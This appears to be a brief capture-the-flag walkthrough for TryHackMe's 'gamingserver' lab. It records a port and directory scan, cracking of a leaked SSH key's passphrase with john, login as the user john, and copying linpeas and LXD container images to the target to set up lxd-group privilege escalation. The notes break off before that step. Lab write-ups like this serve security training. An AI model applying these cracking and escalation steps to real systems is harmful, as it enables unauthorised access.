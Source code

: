 https://tryhackme.com/room/gamingserver

`export IP=10.10.93.170`

## nmap
```
22/tcp open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.3 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:0e:fe:06:12:67:3e:a4:eb:ab:7a:c4:81:6d:fe:a9 (RSA)
|   256 49:61:1e:f4:52:6e:7b:29:98:db:30:2d:16:ed:f4:8b (ECDSA)
|_  256 b8:60:c4:5b:b7:b2:d0:23:a0:c7:56:59:5c:63:1e:c4 (ED25519)
80/tcp open  http    Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: House of danak
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

## gobuster
`gobuster dir -u $IP/ -w /usr/share/wordlists/dirb/common.txt`
```
/index.html (Status: 200)
/robots.txt (Status: 200)
/secret (Status: 301)
/server-status (Status: 403)
/uploads (Status: 301)
```

## index.html
<!-- john, please add some actual content to the site! lorem ipsum is horrible to look at. -->

## ssh2john
`python3 ../../tools/ssh2john.py ./secretKey > ./key.txt`

## john password
`john --wordlist=./dict.lst key.txt`
`letmein`

## ssh login
`sudo chgrp 545 ./secretKey`
`chmod 600 ./secretKey`
` sudo ssh -i ./secretKey john@$IP`

## copy linpeas
Copy a file from local to the SSH victim machine
`sudo scp -i ./secretKey ../../tools/linpeas.sh john@$IP:/home/john/linpeas.sh`

## lxd privileges
https://book.hacktricks.xyz/linux-unix/privilege-escalation/interesting-groups-linux-pe/lxd-privilege-escalation
https://github.com/lxc/distrobuilder/issues/275

Copy to victim
`sudo scp -i ./secretKey /home/martijnkooij/ContainerImages/alpine/lxd.tar.xz john@$IP:/home/john/lxd.tar.xz`
`sudo scp -i ./secretKey /home/martijnkooij/ContainerImages/alpine/rootfs.squashfs john@$IP:/home/john/rootfs.squashfs`